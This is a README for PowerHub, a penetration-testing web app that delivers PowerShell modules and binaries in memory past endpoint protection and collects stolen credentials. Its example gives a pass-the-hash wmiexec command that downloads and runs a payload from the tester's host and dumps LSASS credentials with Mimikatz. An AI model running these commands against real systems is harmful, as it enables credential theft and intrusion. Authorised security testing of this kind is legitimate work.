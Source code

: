 PowerHub
========

PowerHub is a web application which aids a pentester in transferring files,
in particular code which may get flagged by endpoint protection.

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
This provides an (almost) one-click-solution for this. Oh, and you can also
run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred
back either as a file or a text snippet. This also helps with collaboration
in case you're a small team.

How it works
============

The web application is made with Flask and consists of three parts.

The Hub
-------

The hub uses PowerShell to load modules and binaries in memory. The binaries
can be executed directly from memory with
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit)
`Invoke-ReflectivePEInjection`.

Modules have to be placed in `./modules` and can be either PowerShell
scripts, PE executables, or shell code. You can load them on the target via
PowerShell with `Load-HubModule`. Run `Help-PowerHub` for more information.

PowerHub on the attacker system simply looks for `*.ps1` or `*.exe` files.
They need to be in their respective directory, though, so `exe` files need
to be in `modules/exe` (or at least symlinked), and so forth. The `*.ps1`
files are imported on the target via `[Scriptblock]::Create()`.

A simple interface to install modules is provided for your convenience.

The Clipboard
-------------

The clipboard functionality is meant for exchanging small snippets, such as
hashes, passwords, one-liners, and so forth. It's like an extremely basic
[Etherpad](https://etherpad.org/) or a guest book, but non-persistent.

The File Exchange
-----------------

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

Usage
=====

PowerHub has two mandatory arguments: the first is the callback host (can be
an IP address) and the second is either `--auth <user>:<pass>` or
`--no-auth`. The latter disables basic authentication which is *not
recommended*. This host name is used by the stager to download the payload.
If the callback port or path differ from the default, it can also be
changed.

Read `./powerhub.py --help` for details.

Example
=======

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with Mimikatz via Impacket's `wmiexec.py`, tricking many
endpoint protection tools:

```
wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/0\"); Load-Hubmodule Mimikatz ; Invoke-Mimikatz -DumpCreds "'
```

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
